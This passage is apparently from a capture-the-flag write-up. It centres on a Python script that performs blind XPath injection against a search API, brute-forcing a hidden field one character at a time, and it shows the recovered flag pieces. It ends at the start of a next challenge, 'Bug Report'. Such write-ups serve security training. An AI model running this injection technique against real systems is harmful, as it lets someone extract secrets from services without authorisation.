 ```python
from urllib import request


URL = 'http://.../api/search'
payload = '{"search": "x\' or starts-with(selfDestructCode, \'%s\') or name=\'x"}'
headers = {'Content-Type': 'application/json'}

charset = 'abcdefghijklmnopqrstuvwxyz'
charset += charset.upper()
charset += '0123456789_-{}$'

def test_string(s):
    data = (payload % s).encode('utf-8')
    print("Testing:", s, end='\r')
    req = request.Request(URL, data, headers)
    res = request.urlopen(req).read()
    return "member exists" in res.decode('utf-8')


complete = []
matches = ['']

while len(matches) > 0:
    new_matches = []

    for m in matches:
        progress = False

        for test_char in charset:
            if test_string(m + test_char):
                progress = True
                new_matches.append(m + test_char)

        if not progress:
            complete.append(m)

    matches = new_matches

print()
print("Results:")
print(complete)
```

This script, after progressively expanding any string that matched the predicate, returned the two pieces of the flag:

```
$ python solve.py
Results: ['4Cc3s$_c0nTr0l}', 'CHTB{Th3_3xTr4_l3v3l_']
```

## Bug Report
Firing up the container and navigating to its address showed a web page asking to report bugs through their URLs.
